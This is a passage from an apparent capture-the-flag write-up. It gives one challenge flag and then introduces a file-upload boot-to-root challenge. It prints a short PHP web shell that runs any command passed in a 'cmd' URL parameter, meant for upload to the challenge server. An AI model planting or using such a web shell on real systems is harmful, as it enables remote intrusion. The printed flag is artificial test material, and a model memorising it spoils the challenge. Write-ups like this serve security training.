 ![12](./12.png)

Please don’t ask me where the `cybermaterialhavoc` came from.

![13](./13.png)

Flag: `CM{CyberMaterial_World's_Best_Cybersecurity_Data_Platform}`

## Boot2Root

### **Hacker's Fortress**

**Description**:

In this boot-to-root exercise, participants will need to leverage their skills in file uploading and privilege escalation to uncover a hidden flag. The challenge simulates a real-world scenario where unauthorized access to a server must be achieved to find sensitive information.

Author: **`DarkUnic0rn`**

`http://35.208.110.64`

It’s a quite nice file-upload vulnerability.

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
